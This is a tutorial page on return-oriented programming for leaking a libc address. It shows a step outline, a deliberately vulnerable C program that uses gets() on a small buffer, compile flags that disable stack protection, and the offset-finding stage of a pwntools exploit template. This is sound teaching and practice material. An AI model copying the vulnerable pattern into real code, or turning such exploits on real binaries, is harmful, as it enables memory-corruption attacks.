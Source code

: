 # ROP - Leaking LIBC address

## Quick Resume

1. Find overflow offset
2. Find POP\_RDI, PUTS\_PLT and MAIN\_PLT gadgets
3. Find memory address of puts and guess the libc version \(donwload it\)
4. Given the library just exploit it

## Other tutorials and binaries to practice

This tutorial is going to exploit the code/binary proposed in this tutorial: [https://tasteofsecurity.com/security/ret2libc-unknown-libc/](https://tasteofsecurity.com/security/ret2libc-unknown-libc/)  
Another useful tutorial: [https://made0x78.com/bseries-ret2libc/](https://made0x78.com/bseries-ret2libc/)

## Code

Filename: `vuln.c`

```c
#include <stdio.h>

int main() {
    char buffer[32];
    puts("Simple ROP.\n");
    gets(buffer);

    return 0;
}
```

```bash
gcc -o vuln vuln.c -fno-stack-protector  -no-pie
```

## ROP - PWNtools template

\*\*\*\*[**Find my ROP-PWNtools template here.**](../../misc/basic-python/rop-pwn-template.md) I'm going to use the code located there to make the exploit.  
Download the exploit and place it in the same directory as the vulnerable binary.

## 1- Finding the offset

The template need an offset before continuing with the exploit. If any is provided it will execute the necessary code to find it \(by default `OFFSET = ""`\):

```bash
####################
#### Find offset ###
####################
OFFSET = ""#"A"*72
if OFFSET == "":
    gdb.attach(p.pid, "c") #Attach and continue
    payload = cyclic(1000)
    print(r.clean())
    r.sendline(payload)
    #x/wx $rsp -- Search for bytes that crashed the application
    #cyclic_find(0x6161616b) # Find the offset of those bytes
    return
```
